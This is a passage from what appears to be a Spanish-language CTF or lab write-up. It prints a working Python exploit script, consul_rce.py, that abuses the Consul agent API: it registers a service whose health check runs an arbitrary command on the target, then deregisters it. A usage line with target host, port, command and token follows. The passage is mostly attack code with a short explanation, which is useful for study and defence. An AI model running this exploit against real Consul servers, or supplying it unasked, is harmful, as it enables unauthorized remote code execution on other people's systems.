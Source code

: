 ```python
    command = args.command
    headers = {'X-Consul-Token': consul_token} if consul_token else {}
    
    command_list = command.split(" ")
    id = get_random_string()

    data = {
        'ID': id,
        'Name': 'pwn',
        'Address': '127.0.0.1',
        'Port': 80,
        "Check": {
            "DeregisterCriticalServiceAfter": "90m",
            "Args": command_list,
            'Interval': '10s',
            "Timeout": "86400s",
        }
    }

    registerurl= f"{url}/v1/agent/service/register?replace-existing-checks=true"

    r = requests.put(registerurl, json=data, headers=headers, verify=False)

    if r.status_code != 200:
        print(f"[-] Error creating check {id}")
        print(r.text)
        exit(1)

    print(f"[+] Check {id} created successfully")
    time.sleep(12)
    desregisterurl = f"{url}/v1/agent/service/deregister/{id}"
    r = requests.put(desregisterurl, headers=headers, verify=False)

    if r.status_code != 200:
        print(f"[-] Error deregistering check {id}")
        print(r.text)
        exit(1)
    
    print(f"[+] Check {id} deregistered successfully")
```

Este *script* realiza una solicitud *PUT* a la *API* de *Consul* en el *endpoint* */v1/agent/service/register* con un cuerpo *JSON* que contiene información el servicio que va a ser registrado. El *script* también crea un *ID* aleatorio para el servicio. Si la solicitud es exitosa, el *script* imprime un mensaje indicando que el servicio ha sido creado. Luego espera 12 segundos y realiza otra solicitud *PUT* a la *API* de *Consul* en el *endpoint* */v1/agent/service/deregister/{id}* para cancelar el servicio, de nuevo imprimiendo un mensaje si es exitosa.

Los parámetros que le pasaremos al *script* son:

```bash
python3 consul_rce.py -th TARGET_HOST -tp TARGET_PORT -c COMMAND -ct CONSUL_TOKEN
```
